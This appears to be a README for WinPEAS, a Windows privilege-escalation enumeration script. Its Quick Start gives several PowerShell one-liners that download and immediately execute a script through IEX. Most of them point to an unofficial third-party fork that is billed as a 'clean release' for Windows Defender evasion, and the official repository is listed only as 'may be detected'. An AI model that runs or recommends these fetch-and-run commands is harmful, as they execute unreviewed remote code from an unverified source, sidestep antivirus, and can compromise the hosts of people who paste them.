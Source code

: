 # Windows Privilege Escalation Awesome Script (.ps1)

![](https://github.com/peass-ng/PEASS-ng/raw/master/winPEAS/winPEASexe/images/winpeas.png)

**WinPEAS is a script that search for possible paths to escalate privileges on Windows hosts. The checks are explained on [book.hacktricks.wiki](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html)**

Check also the **Local Windows Privilege Escalation checklist** from **[book.hacktricks.wiki](https://book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html)**

## Mantainer

The official **maintainer of this script is [RandolphConley](https://github.com/RandolphConley)**.

## Quick Start

Download the **[latest releas from here](https://github.com/peass-ng/PEASS-ng/releases/latest)**.

```bash
# Get latest clean release (Windows Defender evasion)
"IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/moscowchill/PEASS-ng/main/winPEAS/winPEASps1/winPEAS.ps1')"

$url = "https://raw.githubusercontent.com/moscowchill/PEASS-ng/main/winPEAS/winPEASps1/winPEAS.ps1"

# Run and display output only
powershell "IEX(New-Object Net.WebClient).downloadString('$url')"

# Run and save output to file
powershell "IEX(New-Object Net.WebClient).downloadString('$url') | Tee-Object -FilePath winpeas_output.txt"

# Run and save output while displaying in real-time
powershell "IEX(New-Object Net.WebClient).downloadString('$url') *>&1 | Tee-Object -FilePath winpeas_output.txt"

# Download script, run, and save output (for later reading without re-running)
Invoke-WebRequest -Uri "$url" -OutFile winPEAS.ps1
.\winPEAS.ps1 | Tee-Object -FilePath winpeas_output.txt

# Original version (may be detected)
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```

## Advisory

All the scripts/binaries of the PEAS Suite should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
